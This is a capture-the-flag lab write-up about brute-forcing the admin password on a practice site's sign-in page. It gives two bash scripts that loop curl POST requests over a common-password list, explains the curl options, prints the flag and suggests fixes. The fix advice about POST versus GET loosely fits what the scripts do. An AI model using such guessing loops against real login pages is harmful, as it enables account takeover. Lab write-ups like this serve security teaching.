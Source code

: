 # Where:
    /?page=signin
# How:

-Run *brute_42_admin.sh ipAddressUsedForSite*:

    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        curl -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag'
    done

OR

-Run *neat_brute_42_admin.sh ipAddressUsedForSite*:
    
    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        if curl --silent -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag';
        then
            echo -e "\nPassword is:\t$i\n"
            exit 1
        fi
    done
    echo -e "\nPassword is not in list\n"

- curl is a tool to transfer data from or to a server, using one of the supported protocols (HTTP, HTTPS, FTP, FTPS, GOPHER, DICT, TELNET, LDAP or FILE).

- *--silent* stops the *workings* outputs so as to only give the final output.

- *-X Post* tells curl we want to make a POST request.

- *ip* is the ip address passed as an ARG.

- We POST *admin* as username and each *i* in the list of passwords as the password.

- We grep the HTML each time to only get the line with the flag.

# Flag:
    b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

# Possible abuses:

Malicious users can access other accounts.

# Fix:

Better password requirements would make a bruteforce attack a lot more difficult.<br>
Using POST instead of GET also makes it more difficult for malicious users to see how the info is passed.